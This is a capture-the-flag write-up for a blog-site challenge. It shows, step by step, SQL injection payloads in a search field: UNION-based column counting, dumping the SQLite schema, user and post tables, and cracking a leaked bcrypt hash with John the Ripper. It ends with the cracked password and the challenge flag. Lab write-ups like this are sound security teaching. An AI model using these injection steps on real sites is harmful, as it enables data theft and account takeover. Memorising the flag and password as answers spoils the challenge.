


# im-blogging-you.md

Proposed difficulty: Hard

8 solves

```text
Hejsa! Jeg vil gerne byde dig velkommen til im-blogging you. Im-blogging you er en blog side, hvor du kan oprette dig som bruger og poste dine tanker og følelser. Vi har også mulighed for at lave private post som er kun tilgængelig for dig! Vi håber at se dig poste løs på vores fantastiske blog side!
http://im-blogging.hkn
```

# Solution

We are presented with a simple page, when logged in we are greeted with the following:



By looking around on the site, here are some of the things we can do:

1. Create a post
   - A post contains title and content
   - Can be either private or public
2. Search for posts and users
3. Update our account details

## The vulnerability

After some digging around, I found an SQL injection in the search functionality.

I can search for users with the following query:

`' OR 1=1; -- -`

This gives me a list of all users on the platform.

<details>

<summary>Users</summary>

| Users                 |
| --------------------- |
| admin                 |
| Kevin Miller          |
| Jessica King          |
| Brian Novak           |
| Danny Hines           |
| John Liu              |
| Mary Patrick          |
| Debbie Bishop         |
| Denise Miller         |
| Mrs. Whitney Anderson |
| Sherry Clark          |
| Paul Nelson           |
| Ryan Bennett          |
| Sandra Savage         |
| Christopher Fleming   |
| Mark Smith            |
| Mary Grant            |
| Dana Williams         |
| Vincent Brady         |
| Kristen Russell       |
| Bobby Tables          |

</details>

Let's try to get some better SQLi and explore the database schema. I will do this using a `UNION` injection. First we have to find out how many columns the original query for searching for users has.

We can do this by expanding this query's `SELECT` statement:

`' AND 1=2 UNION ALL SELECT 1; -- -`

`' AND 1=2 UNION ALL SELECT 1, 2; -- -`

`' AND 1=2 UNION ALL SELECT 1, 2, 3; -- -`

And so on until we find the right amount of columns.

This query has 5 columns. Furthermore it is only the second column that is shown in the frontend.

Before proceeding, I want to know which DBMS we are dealing with, such that I can consider which options are available to me. I found out it is SQLite as we can concatenate with `||`. POC:

`' AND 1=2 UNION ALL SELECT 1, 'h'||'ello', 3, 4, 5; -- -`

This gives us the text `hello`.

## SQLi magic

Let's learn more about the database schema.

To quote the [SQLite documentation](https://sqlite.org/schematab.html):

> Every SQLite database contains a single "schema table" that stores the schema for that database. The schema for a database is a description of all of the other tables, indexes, triggers, and views that are contained within the database. The schema table looks like this:
>
> ```sql
> CREATE TABLE sqlite_schema (
>   type text,
>   name text,
>   tbl_name text,
>   rootpage integer,
>   sql text
> );
> ```
>
> The sqlite_schema table contains one row for each table, index, view, and trigger (collectively "objects") in the schema, except there is no entry for the sqlite_schema table itself. See the schema storage subsection of the file format documentation for additional information on how SQLite uses the sqlite_schema table internally.

The documentation also lists these alternative names:

- sqlite_master
- sqlite_temp_schema
- sqlite_temp_master

After a bit of fiddling I found out that the schema table is actually called `sqlite_master`. We can use this knowledge to dump information about the database

`' AND 1=2 UNION ALL SELECT 1, sql, 3, 4, 5 FROM sqlite_master WHERE type = 'table'; -- -`

This query gives us the following output:

```sql
CREATE TABLE user (
  id INTEGER NOT NULL, 
  username VARCHAR(20) NOT NULL, 
  email VARCHAR(120) NOT NULL, 
  image_file VARCHAR(20) NOT NULL, 
  password VARCHAR(60) NOT NULL, 
  PRIMARY KEY (id), 
  UNIQUE (username), 
  UNIQUE (email)
)
        
CREATE TABLE post (
  id INTEGER NOT NULL, 
  title VARCHAR(100) NOT NULL, 
  date_posted DATETIME NOT NULL, 
  content TEXT NOT NULL, 
  user_id INTEGER NOT NULL, 
  private BOOLEAN NOT NULL, 
  PRIMARY KEY (id), 
  FOREIGN KEY(user_id) REFERENCES user (id)
)
```

I imagine that the flag must be in one of these columns somewhere, so I just dumped them all in two queries:

`' AND 1=2 UNION ALL SELECT 1, id||username||email||image_file||password, 3, 4, 5 FROM user; -- -`

This did not yield the flag.

Let's try dumping all posts:

`' AND 1=2 UNION ALL SELECT 1, title||content||user_id, 3, 4, 5 FROM post; -- -`

This did not yield the flag either, but an interesting post was made by user with ID 21 (Bobby Tables):

```text
My private post are only for me

How awesome! I can use these private posts for private stuff!!, That means i dont have to remember my password:b'$2b$12$Ck0zZrj0AOK2MKgzmEXJ5OclVjPw0plu9LfXl6TBvqHXkjocvAKHi'
```

This password is the same that I got when dumping users, so it seems weird that a user should know their own bcrypt hash.

## Cracking the password

We can now use John the Ripper to crack the password from the note. The password is a bcrypt hash:

`$2b$12$Ck0zZrj0AOK2MKgzmEXJ5OclVjPw0plu9LfXl6TBvqHXkjocvAKHi`

```text
$ echo '$2b$12$Ck0zZrj0AOK2MKgzmEXJ5OclVjPw0plu9LfXl6TBvqHXkjocvAKHi' > hash
$ john --format=bcrypt --wordlist=rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

I left this running in the background.

After a while I got the password: `running1`

## Profit

We can now log in as Bobby Tables, by using the email we also dumped in the SQL injection (`Bobby@tables.com`), and use  the password `running1`.

When going into the account settings, the flag is in the email field:



# Flag

`DDC{MY_S0NS_N4M3_1S_B0BBY_T4BL3S}`
